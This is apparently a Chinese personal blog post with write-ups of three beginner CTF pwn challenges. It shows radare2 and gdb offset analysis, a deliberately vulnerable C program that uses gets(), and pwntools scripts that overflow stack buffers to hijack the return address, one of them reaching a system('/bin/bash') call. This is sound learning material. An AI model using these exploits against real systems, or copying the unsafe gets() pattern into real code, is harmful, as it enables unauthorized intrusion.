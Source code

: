 ```yaml
---
title: pwn_write_up
date: 2019-02-13 23:32:38
tags:
    - thinking
---
```


### 一些pwn题的write_up  

&emsp;&emsp;pwn题就是好玩,做了几道题，写一波writeUp。  
&emsp;&emsp;点击标题可下载题目。  

![alias](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_0.jpeg?raw=true)  

#### [1. crackme0x00](https://github.com/Explainaur/hexo-blog/blob/master/source/file/bin-linux/crackme0x00)

&emsp;&emsp;首先我们把这玩意扔到radare2里，先逆了再说。  
&emsp;&emsp;看了一下main()大概长着个样子：  

![main](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_1.png?raw=true)  

&emsp;&emsp;然后下面的分支大概长这个样子：  

![brench](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_2.png?raw=true)  

&emsp;&emsp;大概意思就是，假如我输入的字符串等于250382就算我成功了。本身到这里其实题目已经做完了，但是为了实践stackoverflow，我们要用厉害的方法。

&emsp;&emsp;我们可以看到有一个局部变量 **char *s1 @ ebp-0x18** 这说明这个字符串距离栈基址有 **0x18 (24byte)** 这么远.那么此时 **s1** 就距离 **return_address** 有 0x18+4 这么远.这个时候，我们就可以做一些恶心的事情，比如：  

```python 
from pwn import *   

sh = process('./crackme0x00')

payload = 'a'*0x18 + 'bbbb' + p32(0x8048480)

sh.sendline(payload)

sh.interactive()

```

&emsp;&emsp;我们这样构造payload的原因是，我们希望 **return** 的地址是我们想要的指令.我们前面输入了一堆aaa和bbbb这是为啥嘞？24个a为了填充s1与esp的值的间隔，而4个b则是为了恰好覆盖ebp.  
&emsp;&emsp;这样一来，后面的 **p32(0x8048480)** 就恰好存到了return_address的位置，也就起到了我们要的劫持指令的效果。结果长下面这样：  

![result](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_3.png?raw=true)  

#### [2. ret2text](https://github.com/Explainaur/hexo-blog/blob/master/source/file/ret2text)  

&emsp;&emsp;这个题稍微有点难度，我们用r2先逆为敬.  
&emsp;&emsp;main()大概长下面这样：  

![main](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_4.png?raw=true)  

&emsp;&emsp;我们可以看到里面有 **gets()** 函数，这个东西是坨垃圾，他不限制输入的长度，所以很有可能把缓冲区怼爆，所以我们就想法子日这个函数。  
&emsp;&emsp;我们看到里面有个局部变量 **char \*s @ esp+0x1c** ,gets()函数的值就存在s里面。这个时候我们不禁萌生了一些猥琐的想法。  
&emsp;&emsp;我们接着看其他还有啥函数，毕竟main()里没有好利用的东西，这个时候我们发现了 **sym.secure** 这个函数：  

![sym.secure](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_5.png?raw=true)  

&emsp;&emsp;我们仔细看了一下发现，果然里面有见不得人的东西，它调用了 **system("/bin/bash")**,这我们还能说什么，直接跳转到 **0x0804863a** 日了他完事。下面就是愉快的编写payload，我灵机一动发现事情并不简单，这个局部变量并不是基于 **ebp** 的偏移地址，而是基于 **esp** 栈顶指针给出的，不知道他用了什么妖术。这样的话我们只好用gdb动态调试：  

![gdb](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_6.png?raw=true)  

&emsp;&emsp;我们在**gets()**那里打上断点，然后看一下寄存器的值：  

```
$esp -> 0xffffd030

$ebp -> 0xffffd0b8

s @ $esp+0x1c -> 0xffffd04c

($ebp - s) -> 0xfffd0b8 - 0xffffd04c = 0x6c

```

&emsp;&emsp;一顿帅气操作我们已经得到了s基于**ebp**的偏移地址，下面我们就愉快的写payload：  

```python
from pwn import *    

sh = process('./ret2text')

target = 0x0804863a  

payload = 'a'*0x6c + 'bbbb' + p32(target)

sh.sendline(payload) 

sh.interactive()     
```

&emsp;&emsp;下面就是我们的结果：  

![result](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_7.png?raw=true)  

#### [3. babyPwn](https://github.com/Explainaur/hexo-blog/blob/master/source/file/1)  

&emsp;&emsp;这个题就比较简单了，程序也是我自己写的，下面是源码：  

```c
#include <stdio.h>   
#include <string.h>  

void success() { 
    puts("You Hava already controlled it."); 
}

void vulnerable() {
    char s[12];        
    gets(s);           
    puts(s);           
    return;            
}
 
int main(int argc, char **argv) {
    vulnerable();
    return 0;          
}
```
&emsp;&emsp;直接逆,main()和sym.vulnerable()大概下面这样：  

![main&vulnerable](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_8.png?raw=true)  

&emsp;&emsp;这个逻辑也比较简单，我们看main()里面好像啥也没有，接着看**vulnerable()**里面又出现了gets()这种东西，好了怼他，我们看到这个局部变量**char s @ ebp-0x14**中规中矩，给的也是基于 **ebp** 的偏移地址。  
&emsp;&emsp;接着我们看一看别的函数，里面有个醒目的 **sym.success** 是结果没跑了，一看长这样：  

![sym.success](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_9.png?raw=true)  

&emsp;&emsp;那我们就直接把success()的地址放在vulnerable()的返回值那里，让他直接跳转，思路清晰，下面愉快的写payload：  


```python
from pwn import *

sh = process('./1')

success_addr = 0x08049172

payload = 'a' * 20 + 'bbbb' + p32(success_addr)

print p32(success_addr)
sh.sendline(payload)

sh.interactive()
```

&emsp;&emsp;然后结果就长这个样子：  

![result](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/pwn_10.png?raw=true)  

---  
### 总结  

&emsp;&emsp;总之，我认为pwn是入侵的最高境界，是一种暴力美学，如果说web能拿到一些主机的权限，那么pwn能拿到世界上所有主机的权限。  
&emsp;&emsp;漏洞的利用千奇百怪，绝不要被教条束缚了头脑，始终忘不了第一次见到如此简洁的shellcode时的惊讶。二进制就像魔法，我就是寻求刺激的魔法师。
&emsp;&emsp;以上三道题目是入门题，我要走的路还很长。





















